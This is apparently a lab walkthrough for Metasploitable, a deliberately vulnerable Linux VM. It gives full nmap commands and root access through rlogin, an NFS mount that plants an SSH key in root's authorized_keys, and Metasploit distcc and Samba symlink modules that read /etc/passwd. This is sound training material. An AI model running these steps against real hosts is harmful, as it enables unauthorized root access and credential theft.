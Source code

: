```yaml
---
title: Metasploitable
published: true
---
```

The following information shows the **Metasploitable walkthrough**

## [](#header-2)Introduction

   Metasploitable is a Linux based operating system that is designed in a vulnerable way so that the pen-testers and ethical hackers can test their skills. There is no security to the server hence it is always better to _run the metasploitable in a virtual environment_, as anyone can logon into it.
  
### [](#header-3)Requirements
  
   1. Download the vulnerable OS from the following link, **[metaploitable_download_link](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).**
   2. Kali Linux can be downloaded from the link, **[Kali_Linux_download_link](https://www.kali.org/).**
   3. Virtual Environment, here example is shown using VMware Workstation.
   4. Good understanding of Metasploit Framework(MSF).
   5. Linux commands usage.
       Install both the Operating Systems and run it.
      
      **_NOTE: Installation steps of Kali Linux can be found here,[Kali_linux_insatllation_guide](another_page)_.**
      
   When the OSes installed properly, one can encounter as shown in the following image,
   

# [](#header-1) image 
   
   
   Login into the metasploitable terminal, Username and password would be given(commonly, it is msfadmin)
     
   Get the IP address, `# ifconfig`
   Use that IP_address and perform the following steps: 
        1. Scanning
        
        2. Vulnerability identification/Enumeration
        
        3. Exploitation and Access Gaining 

# [](#header-1) Network Penetration Testing

# [](#header-1)Step 1: Scanning 
   
   In this we need to find the ports that are open and also services running on that each port using which exploitation is done.

   * Open a terminal in Kali Linux and use **_namp_** to perform the Network Scanning
   * Enter the following command, `# nmap -sS -Pn -n ip_address`
     - by default NMAP scans upto 1000 ports, to scan all the ports use either `-p`- or `-p 1-65535`
     - the above command offers the TCP SYN scan, to scan the UDP ports use `-sU`
     - the command also skips the host discovery(no Ping) and DNS resolution
            
      The results can be similar to the following image,
      
      # [](#header-1) image 
         
        ![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)



# [](#header-1)Step 1: Enumeration

nmap -Pn --script vuln 192.168.1.105

   BOOM!!!!!!!!

# [](#header-1)Step 1: Exploitation and Acess Gaining

   There are various to gain access to the Metasploitable target machine. Lets try them as follows,

**_METHOD 1:_**
   
   Ports 512,513,514 offers the ‘r’ services, it means that remote access can be gained from any host using the IP address.
   
   So open a terminal and type, 
   
   **_# rlogin -l root ip_address_** 	

// if asks for password then probably rsh-client is not installed, else you will be in that target machine.

   **_# apt install rsh-client_**

   now execute **_# rlogin -l root ip_address_** 	

// should work perfectly if that service is open


**_METHOD 2: SSH LOGIN_**

   For this we need to generate the RSA key and kinda have to copy that key to that target machine using rpcbind and NFS (port 2049) mount the NFS export (for exporting), and add our key to the root user account's authorized_keys file.
      
   **_# apt update
       
   # apt install rpcbind nfs-common
	
   # rpcinfo -p ip_address
         
   # showmount -e ip_address
         
   # ssh-keygen	//just press enter for the questions asked for default settings
         
   # mkdir /tmp/r00t
        
   # mount -t nfs ip_address:/ /tmp/r00t
   
   # cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys
   
   # umount /tmp/r00t
   
   # ssh root@ip_address_**
         
         
**_METHOD 3: SMB 445_**

   Samba, can also be used as a backdoor to access files that were not meant to be shared when configured with a writeable file share and "wide links" enabled. I used Metasploit Framework to compromise the target.
	
   On msfconsole,
   
   > msf use exploit/unix/misc/distcc_
   
   > set rhost 192.168.214.129
   
   > exploit
   
   On another terminal
   
   # smbclient -L //ip_address
   
   On msfconsole,
    
   > use auxiliary/admin/smb/samba_symlink_traversal

   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set rhost ip_address
   
   msf5 auxiliary(admin/smb/samba_symlink_traversal) > set SMBSHARE tmp
   
   msf5 auxiliary(admin/smb/samba_symlink_traversal) > exploit

   On terminal,
   
   # smbclient  //ip_address/tmp
			// now you will have the smb shell access, try #cd rootfs #cd etc and #more passwd


```
The final element.
```
